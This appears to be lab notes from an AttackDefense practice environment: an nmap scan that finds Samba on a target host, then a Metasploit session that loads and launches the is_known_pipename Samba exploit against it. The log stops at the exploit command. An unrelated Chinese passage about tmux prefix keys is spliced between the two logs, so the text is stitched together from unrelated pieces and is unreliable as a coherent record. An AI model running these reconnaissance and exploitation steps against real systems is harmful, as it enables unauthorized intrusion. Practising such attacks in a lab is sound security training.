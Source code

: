 Target IP Address : 192.34.83.3

```
root@attackdefense:~# nmap -sV 192.34.83.3
Starting Nmap 7.70 ( https://nmap.org ) at 2023-06-23 03:12 UTC
Nmap scan report for target-1 (192.34.83.3)
Host is up (0.0000090s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 02:42:C0:22:53:03 (Unknown)
Service Info: Host: VICTIM-1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.58 seconds
```

[About tmux](https://github.com/tmux/tmux/wiki/Getting-Started)

前缀键

一旦连接了 tmux 客户端，任何输入的按键都会被转发到当前窗口中活动面板中运行的程序。对于控制 tmux 自身的按键，必须先按下特殊的键 - 这称为前缀键。

默认的前缀键是 C-b，表示 Ctrl 键和 b 键。在 tmux 中，修饰键通过在键前加上 C- 表示控制键，M- 表示元键（通常是现代计算机上的 Alt 键）和 S- 表示 shift 键。它们可以组合在一起，因此 C-M-x 表示同时按下控制键、元键和 x 键。

当按下前缀键时，tmux 等待另一个按键，这决定了执行哪个 tmux 命令。这样的按键在这里用空格隔开：C-b c 表示先按下前缀键 C-b，然后释放它，然后按下 c 键。如果需要，在按下 C-b 后必须小心释放 Ctrl 键 - C-b c 与 C-b C-c 不同。

连续按两次 C-b 将 C-b 键发送到活动面板中运行的程序。

session 0

```
root@attackdefense:~# service postgresql start && msfconsole -q
[ ok ] Starting PostgreSQL 11 database server: main.
msf5 > setg RHOSTS 192.34.83.3
RHOSTS => 192.34.83.3
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          192.34.83.3      yes       The target address range or CIDR identifier                                                                  
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share                                                          
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory                                                   


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


msf5 exploit(linux/samba/is_known_pipename) > exploit

```